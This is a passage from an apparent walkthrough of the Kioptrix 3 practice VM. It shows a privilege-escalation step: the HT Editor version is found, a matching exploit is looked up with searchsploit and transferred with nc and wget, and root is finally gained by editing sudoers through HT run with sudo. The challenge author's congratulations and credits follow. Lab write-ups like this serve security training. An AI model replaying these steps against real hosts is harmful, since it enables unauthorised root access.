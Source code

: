 strings shows me HT 2.0.18 and http://hte.sourceforge.net/

root@kali:~# searchsploit 2.0.18

HT Editor 2.0.18 - File Opening Stack Overflow | linux/local/17083.pl

Look at that...and I can run this file as root.

Serve up the file for the target machine

root@kali:~# nc -lvp 80 < /usr/share/exploitdb/platforms/linux/local/17083.pl

Grab the file and rename it

loneferret@Kioptrix3:~$ wget 192.168.118.180
loneferret@Kioptrix3:~$ mv index.html 17083.pl

Fixing the term issue before playing with HT

export TERM=xterm-color

Wait.....HT is a text editor...that I can run as root with su.  I don't need to make an exploit work...I can edit the sudoers file.

loneferret@Kioptrix3:~$ sudo ht
loneferret@Kioptrix3:~$ sudo su
root@Kioptrix3:/home/loneferret#

root@Kioptrix3:~# cat Congrats.txt
Good for you for getting here.
Regardless of the matter (staying within the spirit of the game of course)
you got here, congratulations are in order. Wasn't that bad now was it.

Went in a different direction with this VM. Exploit based challenges are
nice. Helps workout that information gathering part, but sometimes we
need to get our hands dirty in other things as well.
Again, these VMs are beginner and not intented for everyone.
Difficulty is relative, keep that in mind.

The object is to learn, do some research and have a little (legal)
fun in the process.


I hope you enjoyed this third challenge.

Steven McElrea
aka loneferret
http://www.kioptrix.com


Credit needs to be given to the creators of the gallery webapp and CMS used
for the building of the Kioptrix VM3 site.

Main page CMS:
http://www.lotuscms.org

Gallery application:
Gallarific 2.1 - Free Version released October 10, 2009
http://www.gallarific.com
Vulnerable version of this application can be downloaded
from the Exploit-DB website:
http://www.exploit-db.com/exploits/15891/
